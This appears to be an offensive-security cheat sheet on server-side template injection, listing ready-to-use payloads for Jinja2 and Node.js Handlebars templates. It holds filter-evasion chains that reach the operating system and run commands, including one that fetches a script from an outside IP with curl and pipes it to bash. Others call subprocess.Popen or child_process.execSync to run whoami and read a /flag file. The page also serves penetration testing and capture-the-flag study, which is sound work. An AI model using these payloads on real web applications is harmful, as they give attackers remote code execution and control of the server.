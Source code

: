# Server-Side Template Injection (SSTI)

{% code overflow="wrap" %}
```django
${{<%[%'"}}%    # Special characteres for detection
{{7*7}}
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl [IP_ADDR]/rce | bash")|attr("read")()}}
```
{% endcode %}

## Python

### Jinja2

{% code overflow="wrap" %}
```django
http://[URL]/{{ ''.__class__.__mro__[1].__subclasses__() }}   # To list all objects
http://[URL]/{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}   # Using subprocess.Popen index in 401 to achieve rce
{{request.application.__globals__.__builtins__.__import__('os').popen('cat /flag').read()}}
{{request.__class__._load_form_data.__globals__.__builtins__.open("/flag").read() }}
{{ get_flashed_messages.__globals__.__builtins__.open("/flag").read() }}

# Filter Evasion
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}
{{ string|attr(class) }}

# Listing all subclasses
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}
{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
{{ subclasses_r }}

# Using Popen on 420
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}
{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
{{ subclasses_r[420] }}
```
{% endcode %}

Ref: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

## Node.js Express middleware

{% code overflow="wrap" %}
```django
{{#with "s" as |string|}}
	{{#with "e"}}
		{{#with split as |conslist|}}
			{{this.pop}}
			{{this.push (lookup string.sub "constructor")}}
			{{this.pop}}
			{{#with string.split as |codelist|}}
				{{this.pop}}
				{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
				{{this.pop}}
				{{#each conslist}}
					{{#with (string.sub.apply 0 codelist)}}
						{{this}}
					{{/with}}
				{{/each}}
			{{/with}}
		{{/with}}
	{{/with}}
{{/with}}
```
{% endcode %}

